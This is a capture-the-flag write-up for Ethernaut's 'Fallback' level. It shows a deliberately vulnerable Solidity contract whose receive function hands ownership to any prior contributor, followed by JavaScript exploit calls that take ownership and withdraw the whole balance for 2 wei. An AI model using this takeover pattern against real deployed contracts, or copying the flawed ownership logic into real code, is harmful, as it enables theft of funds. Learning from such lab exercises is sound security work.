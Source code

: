 # Ethernaut: 1. Fallback

**Objective of CTF:**

- Claim ownership of the contract.
- Reduce contract balance to 0.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Fallback {
  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address public owner;

  constructor() payable {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner() {
    require(msg.sender == owner, "caller is not the owner");
    _;
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether, "insufficient funds");
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0, "insuff. value contribution");
    owner = msg.sender;
  }
}
```

The receive function is flawed, we just need to send some value via contribute and then via receive to change the owner. The contribute requires less than 0.001 ether, and receive expects greater than 0. Here is the plan:

1. We will contribute 1 Wei.
2. We will then send money to the contract address via a fallback function. This can be done by calling a non-existent function in the contract with some ether value.
3. We are now the owner!
4. To deal the final blow, we call the `withdraw` function. By only spending 2 Wei, we got the owners balance :)

```js
// (1) Contribute
await contract.contribute({value: '1'});

// (2) Fallback
await contract.sendTransaction({
  from: player,
  value: '1',
  data: undefined, // for the fallback
});

// (3) Confirm ownership
await contract.owner();

// (4) Withdraw
await contract.withdraw();
```
